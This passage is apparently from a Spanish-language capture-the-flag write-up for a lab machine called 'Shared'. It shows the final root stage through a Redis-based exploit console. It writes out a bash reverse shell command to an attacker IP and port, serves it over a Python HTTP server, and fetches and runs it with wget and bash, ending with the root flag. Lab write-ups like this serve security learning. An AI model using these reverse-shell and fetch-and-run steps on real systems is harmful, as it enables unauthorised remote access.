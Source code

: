 Ahora ya podremos ejecutar el *script* de python en nuestra máquina y **nos dará una consola donde podremos ejecutar comandos como *root***. A partir de aquí podemos visualizar directamente la *flag* o enviarnos una consola.

<img src="/photos/2022-09-30-Shared-WriteUp/rootcommands.png" alt="drawing"  />

Para enviarnos una consola, yo me he creado un archivo *index.html* con el contenido ```bash -i >& /dev/tcp/10.10.14.12/443 0>&1```. Posteriormente despliego un servidor en python para compartir el fichero (python3 -m http.server 80). Luego, me lo descargo con *wget*:

```python
>>wget 10.10.14.12
b''
input exec cmd:(q->exit)
>>ls
b'dump.rdb\nindex.html\n'
input exec cmd:(q->exit)
```

Y por último hago un ```bash index.html```

<img src="/photos/2022-09-30-Shared-WriteUp/roothsell.png" alt="drawing"  />  

```zsh
root@shared:/var/lib/redis## cat /root/root.txt
cat /root/root.txt
a453c629bc2e619296163cac66b3fe24
```